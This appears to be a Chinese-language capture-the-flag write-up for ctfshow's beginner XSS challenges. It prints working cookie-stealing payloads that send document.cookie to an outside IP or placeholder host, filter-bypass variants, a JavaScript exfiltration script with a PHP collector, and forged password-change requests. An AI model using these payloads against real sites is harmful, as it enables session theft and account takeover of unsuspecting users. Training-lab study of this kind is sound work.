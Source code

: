 ﻿---
title: ctfshow web入门(xss)
categories: ctfshow
---
# 前言
js 咱也不会呀。瞎做做题了解个入门吧

---
# 316
首先作为第一题，详细点

先检测最基础的xss：`<script>alert('1')</script>`

![](https://img-blog.csdnimg.cn/20210420170257434.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
当我们生成链接时，我们会弹出一个  1：

<!--more-->

![](https://img-blog.csdnimg.cn/20210420170304601.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
刷新一下就会触发xss

此时只要利用来获取admin的cookie就好


利用服务器
```
<script>window.open('http://1.15.66.132/'+document.cookie)</script>
```


`使用 window 对象的 open() 方法可以打开一个新窗口`


查看日志 发现flag

![](https://img-blog.csdnimg.cn/20210420170436892.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)


---
# 317
Onload:

页面加载之后立即执行一段 JavaScript：
```
<body onload="load()">
```


过滤了 `<script>`

```
<iframe onload="window.open('http://x.x.x.x /'+document.cookie)"></iframe>
```

什么是iframe

![](https://img-blog.csdnimg.cn/2021042017060266.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

---
#318
```
<svg onload="window.open('http://1.15.66.132/'+document.cookie)">
```

>SVG (Scalable Vector Graphics) 可缩放矢量图，是一种基于XML语法的图像格式。其他图像格式都是基于像素处理的，SVG则是属于对图像的形状描述，所以它本质上是文本文件，体积相对较小，且放大时也不会失真。


---
# 319
```
<body onload="window.open('http://x.x.x/'+document.cookie)">
```

---
# 320-326
过滤 `空格` 用 `/` 绕过
```
<body/onload=document.location='http://x.x.x/cookie.php?cookie='+document.cookie;>

或者 水平制符标绕过:

<body	onload=document.location='http://1.15.66.132/'+document.cookie;>
```

![](https://img-blog.csdnimg.cn/20210420170759243.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

---
# 327 (存储型xss)
无过滤

![](https://img-blog.csdnimg.cn/20210420170907210.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

![](https://img-blog.csdnimg.cn/20210420170915234.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

---
# 328

先注册一个账号，存储起来，当管理员访问用户管理页面时，会显示用户名，这时就会盗取cookie

我们再修改cookie，刷新页面

注册提交：

![](https://img-blog.csdnimg.cn/20210420171023508.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

获取cookie：

![](https://img-blog.csdnimg.cn/20210420171035355.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
修改cookie：

![](https://img-blog.csdnimg.cn/2021042017104654.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

---
# 329

从这道题以后，群主设置了把cookie发送给你之前就让它失效了，所以换一个思路获取页面元素
Test.js:
```js
var img = new Image();
img.src = "http://your-domain/cookie.php?q="+document.querySelector('#top > div.layui-container > div    :nth-child(4) > div > div.layui-table-box > div.layui-table-body.layui-table-main').textContent;//问了师傅才知道这个标签是可以通过浏览器找到的，ttttqqqqll
document.body.append(img);
```

cookie.php:
```php
<?php 
$cookie = $_GET['q']; 
$myFile = "cookie.txt"; 
file_put_contents($myFile, $cookie, FILE_APPEND);
?>
```

不知道为啥直接显示出来

![](https://img-blog.csdnimg.cn/20210420171226938.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

---
# 330
修改密码处get一个请求

![](https://img-blog.csdnimg.cn/20210420171249266.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
Payload:
```
<script>window.open('http://127.0.0.1/api/change.php?p=1234567')</script>
```

使本地管理员修改密码

admin 1234567 登录


---
# 331
变为post请求

![](https://img-blog.csdnimg.cn/20210420171331366.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
javascript如何发送Http请求，发现方式还是挺多的，这里试试用XMLHttpRequest。

```php
var httpRequest = new XMLHttpRequest();//第一步：创建需要的对象
httpRequest.open('POST', 'url', true); //第二步：打开连接
httpRequest.setRequestHeader("Content-type","application/x-www-form-urlencoded");//设置请求头 注：post方式必须设置请求头（在建立连接后设置请求头）
httpRequest.send('name=teswe&ee=ef');//发送请求 将情头体写在send中
/**
 * 获取数据后的处理程序
 */
httpRequest.onreadystatechange = function () {//请求后的回调接口，可将请求成功后要执行的程序写在其中
    if (httpRequest.readyState == 4 && httpRequest.status == 200) {//验证请求是否发送成功
        var json = httpRequest.responseText;//获取到服务端返回的数据
        console.log(json);
    }
};
```

Payload：直接注册
```
<script>var httpRequest = new XMLHttpRequest();httpRequest.open('POST', 'http://127.0.0.1/api/change.php', true);httpRequest.setRequestHeader("Content-type","application/x-www-form-urlencoded");httpRequest.send('p=1234567');</script>
```


---
# 332
这里还是看y4的解法吧

利用逻辑漏洞：
自己给自己转账自己加钱
给admin转-5000，自己加5000

# 333
只能给自己转钱，bp爆破一下

---
# 参考

[[CTFSHOW]XSS入门(佛系记录)](https://y4tacker.blog.csdn.net/article/details/111568030)

[CTFshow-WEB入门-XSS](https://blog.csdn.net/rfrder/article/details/114079028)

[ctfshow XSS专题](https://blog.csdn.net/weixin_43578492/article/details/112128236)
